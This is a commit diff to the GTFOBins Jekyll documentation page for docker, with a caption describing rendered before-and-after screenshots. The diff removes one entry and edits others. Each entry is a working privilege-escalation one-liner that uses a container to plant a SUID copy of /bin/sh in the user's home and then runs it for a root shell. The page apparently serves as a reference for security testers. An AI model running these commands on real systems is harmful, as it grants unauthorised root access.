

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Remove docker interactive-execute

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -1,19 +1,13 @@
 ---
 description: |
-  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, i.e., being in the `docker` group.
-
-  This creates a SUID shell in the guest file system. Any other Linux images should work, e.g., `debian`.
+  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
 functions:
-  execute-interactive:
-    - code: |
-        docker run --rm -v /home/$USER:/h_docs ubuntu \
-            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
   sudo-enabled:
     - code: |
         sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
-            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
+            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
   suid-enabled:
     - code: |
         ./docker run --rm -v /home/$USER:/h_docs ubuntu \
-            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
+            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
 ---
```
